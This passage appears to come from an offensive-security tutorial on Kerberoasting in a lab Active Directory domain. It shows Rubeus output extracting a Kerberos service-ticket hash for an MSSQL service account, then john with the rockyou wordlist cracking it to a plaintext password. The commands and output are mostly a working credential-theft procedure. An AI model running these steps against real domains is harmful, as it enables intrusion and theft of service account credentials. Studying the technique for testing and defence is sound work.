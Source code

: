 From here, you can do the usual trick of converting it to a `Kerberos Cache` offline - then cracking it after obtaining the hash using `describeTicket.py`. Or, you can use `Rubeus.exe describe`.

```
PS C:\Users\async_testuser-001> .\Rubeus.exe describe /ticket:doIGZDCCBmCgAw[...snip...]9jYWw= /nowrap
[*] Action: Describe Ticket



  ServiceName              :  MSSQLSvc/SQL01.asia.earth.local
  ServiceRealm             :  ASIA.EARTH.LOCAL
  UserName                 :  async_testuser-001 (NT_PRINCIPAL)
  UserRealm                :  ASIA.EARTH.LOCAL
  StartTime                :  6/29/2025 11:24:47 PM
  EndTime                  :  6/30/2025 9:24:47 AM
  RenewTill                :  7/6/2025 11:24:04 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  HGWwqFWyrPewuxjQR+F0aA==
  Kerberoast Hash          :  $krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.asia.earth.local*$5A176A305C0A31686A[...snip...]F79DE0463FB78CD1355290A4040948CAF7B7846F222C3E13B88422493AC1D0FC6CDE06E5973D0DE0332DC0E961347A71C62C1AFF1508124BF1897C9ED7AD3D8B9F24A1B3E48D3BF063B4083C322E02D734336ED10E37FFFE4AB2BC4699A28755C59DED09D7BE
```

Bring this hash offline, and crack it as usual:

```
echo '$krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.asia.earth.local*$5A176A305C0A31686AD8F638ED44A25B$CF5B08B4381821A0534DE084AD5FEEB9384E6E53C40BF039037A52103A688EE28C3BDA8628EC0DD43C2D3AFAA72E[...snip...]290A4040948CAF7B7846F222C3E13B88422493AC1D0FC6CDE06E5973D0DE0332DC0E961347A71C62C1AFF1508124BF1897C9ED7AD3D8B9F24A1B3E48D3BF063B4083C322E02D734336ED10E37FFFE4AB2BC4699A28755C59DED09D7BE' > svc_sql.hash

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:28) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Having Fun with Kerberos

This section goes over some prerequisite knowledge that is required to understand the next section, from a scenario where you may not know the SPNs of a service account (but you know that they _do_ have SPNs).

### Roasting without SPNs
